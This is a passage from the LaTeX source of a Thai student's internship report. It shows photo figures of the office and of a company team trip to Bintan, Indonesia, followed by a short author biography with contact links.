        
\includegraphics[width=0.45\linewidth]{balcony.jpeg}
    }
    \subfigure[ห้องครัว]{
        \label{Fig:dorm:4}
        
\includegraphics[width=0.45\linewidth]{dorm3}
    }
    \caption{ภาพออฟฟิศที่ทำงาน}
    \label{Fig:office}
\end{figure}

\section{กิจกรรมระหว่างฝึกงาน}

เนื่องจากในเดือนตุลาคมทางบริษัทได้จับกิจหรรมที่ชื่อว่า Team Event ซึ่งเป็นกิจกรรมที่ทุกคนในทีม Asia Pacific ประกอบ ไปทำกิจกรรมร่วมกันที่ต่างประเทศ โดยบริษัทจะออกค่าใช้จ่ายให้ทั้งหมด โดยกิจกรรมจัดขึ้นที่เกาะ Bintan ประเทศ Indonesia วันที่ 11 ตุลาคม ถึง 13 ตุลาคม พ.ศ. 2562

\begin{figure}[!h]
	\centering
	\subfigure[ห้องพัก]{
		\label{Fig:teamevent:1}
		
\includegraphics[width=0.45\linewidth]{room.jpeg}
	}
	\subfigure[ชายหาด ณ ที่พัก]{
		\label{Fig:teamevent:2}
		
\includegraphics[width=0.45\linewidth]{bintanbeach.jpeg}
	}
	\subfigure[แข่งขันแทงพูล]{
		\label{Fig:teamevent:_}
		
\includegraphics[height=0.35\linewidth]{bintanpool.jpeg}
	}
	\subfigure[แข่งขันกีฬาทางน้ำ]{
		\label{Fig:teamevent:4}
		\includegraphics[width=0.45\linewidth]{watersport.jpg}
	}
	\caption{ภาพกิจกรรม Team Event}
	\label{Fig:teamevent}
\end{figure}

\chapter{ประวัติผู้เขียน}

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.3\columnwidth]{std.jpg}
	\label{Fig:std.jpg}
\end{figure}

\begin{center}

\begin{tabular}{l l}
	ชื่อ - นามสกุล & \AuName \\
	Email & weeruhputt.s@gmail.com \\
	ประวัติและผลงานเพิ่มเติม & https://www.linkedin.com/in/weeruhputt/ \\
\end{tabular}

\end{center}

    
\end{document}